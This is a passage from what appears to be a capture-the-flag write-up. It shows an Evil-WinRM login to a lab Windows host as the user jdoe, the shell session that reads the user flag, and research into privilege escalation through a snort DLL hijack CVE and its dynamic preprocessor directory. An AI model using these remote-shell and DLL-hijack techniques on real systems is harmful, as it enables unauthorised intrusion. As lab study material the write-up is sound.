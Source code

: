 Let's use Evil-WinRM to connect with this user and spawn a more stable shell:

```bash
$ evil-winrm -i 10.129.223.1 -u jdoe -p <redacted>

Evil-WinRM shell v3.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\jdoe\Documents> whoami
analysis\jdoe

*Evil-WinRM* PS C:\Users\jdoe\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\jdoe\Desktop> ls


    Directory: C:\Users\jdoe\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        1/23/2024  10:33 PM             34 user.txt


*Evil-WinRM* PS C:\Users\jdoe\Desktop> cat user.txt
71d78169aa06bb5f7d5b1e6fd7babd81
```

Now that we are inside, let's take a look again at the `PrivescCheck.ps1`. After some greps here and there, I've found these lines:

<img src="../figs/analysis15.png" alt="snort svc">

After some research, I've found [this](https://www.cvedetails.com/cve/CVE-2016-1417/) CVE about dll hijack. In this exploit an attacker would place arbitrary code under tcapi.dll and run `snort.exe` to open any pcap file. Unfortunately, that did not work. I had to dig a little deeper...

During my research, I found [this](https://www.spencerdrayton.co.uk/blog/snort-custom-dynamic-preprocessor/) reference saying snort uses dynamic preprocessors for various network traffic analysis tasks. These preprocessors are dynamically loaded at runtime from the snort_dynamicpreprocessor directory.
